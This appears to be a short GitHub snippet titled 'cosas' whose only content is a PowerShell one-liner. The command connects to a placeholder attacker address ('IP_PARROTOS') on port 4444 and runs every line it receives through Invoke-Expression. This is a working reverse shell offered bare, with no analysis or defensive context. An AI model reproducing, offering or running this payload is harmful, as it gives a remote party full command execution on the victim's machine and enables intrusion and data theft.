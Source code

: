 # cosas
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('IP_PARROTOS', 4444); $stream = $client.GetStream(); $writer = New-Object System.IO.StreamWriter($stream); $reader = New-Object System.IO.StreamReader($stream); while ($true) { $writer.WriteLine($reader.ReadLine()); $writer.Flush(); $input = $reader.ReadLine(); if ($input -eq 'exit') { break; } else { $output = Invoke-Expression $input; $writer.WriteLine($output); $writer.Flush(); } } $client.Close()"

